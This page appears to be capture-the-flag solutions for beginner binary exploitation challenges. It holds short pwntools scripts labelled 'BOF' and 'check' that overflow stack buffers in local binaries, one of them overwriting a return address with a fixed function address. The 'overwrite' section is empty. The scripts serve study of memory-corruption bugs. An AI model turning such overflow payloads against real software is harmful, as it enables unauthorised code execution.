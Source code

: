 # ***BOF***

```
from pwn import *
io = process("./bof")
payload = b"A"*40
payload += p64(0x00000000004011b6)
io.sendline(payload)
io.interactive()
```
# ***check***

```
from pwn import*
io = process("./check")
payload = b"A"*21
io.sendline(payload)
io.interactive()
```

# ***overwrite***

